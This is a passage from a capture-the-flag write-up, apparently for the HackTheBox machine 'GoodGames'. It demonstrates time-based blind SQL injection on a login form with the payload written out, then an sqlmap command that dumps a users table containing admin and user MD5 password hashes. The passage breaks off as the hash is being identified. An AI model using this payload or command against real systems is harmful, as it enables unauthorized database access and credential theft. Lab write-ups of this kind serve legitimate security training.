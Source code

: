 <img src="../figs/ggs6.png" alt="sqli success">

Amazing! Now that we now that this is our injection point, we can try to enumerate the database in order to find an admin account of 
some sort. Since this injection does not retrieve anything back to us, we will have to base our search blindly. [This](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL%20-%20Time%20Based%20SQLi/README.md)
repo is great for testing time-based SQLi. The specific payload `mula%40mula.com'XOR(if(now()=sysdate(),sleep(5*5),0))OR'#--;` confirmed
a time delay of 25 seconds for the server to respond, thus the vulnerability.

Since retrieving everything manually would take an unecessary amount of work, we'll use SQLmap to our advantage. This was what I've 
ran:

```bash
$ sqlmap -u http://10.129.96.71/login --data "email=mula@mula.com&password=1234" --tables
[...snip...]
id,email,name,password
1,admin@goodgames.htb,admin,2b22337f218b2d82dfc3b6f77e7cb8ec
2,mula@mula.com,mula,81dc9bdb52d04dc20036dbd8313ed055 (1234)
```

And now we have the admin account + its password hash. With a quick search, we can find this hash to be a MD5 hash:
